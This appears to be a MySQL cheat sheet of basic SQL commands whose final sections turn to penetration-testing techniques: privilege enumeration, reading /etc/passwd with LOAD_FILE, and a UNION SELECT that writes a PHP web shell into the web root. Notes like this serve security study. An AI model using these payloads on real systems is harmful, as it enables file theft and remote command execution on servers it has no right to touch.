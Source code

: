 #### Connect To MySQL Database

```sh
mysql -u user -h host -P port -p
```

#### Create Database

```sql
CREATE DATABASE database_name;
```

#### Create Table

```sql
CREATE TABLE logins (
	id INT NOT NULL AUTO_INCREMENT,
    username VARCHAR(100),
    password VARCHAR(100),
    date_of_joining DATETIME
);
```

#### Insert Record

```sql
INSERT INTO table_name (column2, column3) VALUES (column2_value, column3_value), (column2_value, column3_value);
```

This method automatically fills in columns with default values, like the `datetime` field, for example.

#### Drop Record/Table

```sql
DROP TABLE table_name;

ALTER TABLE table_name DROP column_name;
```

#### Alter Record

```sql
ALTER TABLE table_name ADD new_column TYPE; -- TYPE is to be replaced by INT, TEXT or any other type. This creates a new column.

ALTER TABLE table_name RENAME COLUMN new_column TO new_name; -- Renames a column.
```

#### Update Record

```sql
UPDATE table_name SET column1=newvalue1, column2=newvalue2 WHERE condition;
```

#### Sort Results

```sql
SELECT * FROM table_name ORDER BY column DESC, column2 ASC;
```

#### Limiting Results

```sql
SELECT * FROM table_name LIMIT 2;
```

#### Condition

```sql
SELECT * FROM table_name WHERE condition; -- A condition can be `id > 1`, for example.
```

#### Like Clause

```sql
SELECT * FROM table_name WHERE column_name LIKE 'admin%' AND column_name LIKE 'adm_n'; -- Similar to `grep admin*` and `grep adm?n`. AND can also be replaced with OR.
```

#### Make a Column the `PRIMARY KEY`

```sql
PRIMARY KEY (column_name)
```

#### Schemata

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA
```

#### Get User

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

#### Get Privileges

```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE user="USERNAME"

SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv" -- Check if `secure_file_priv` has a particular directory.
```

#### Read File

```sql
SELECT LOAD_FILE('/etc/passwd'); -- if the user has the `FILE` privilege
```

#### Write File

```sql
UNION SELECT '<?php system($_REQUEST[0]); ?>' into outfile '/var/www/html/shell.php'; -- This will only work if `secure_file_priv` has no directory. If it does, then you can only write to that directory.
```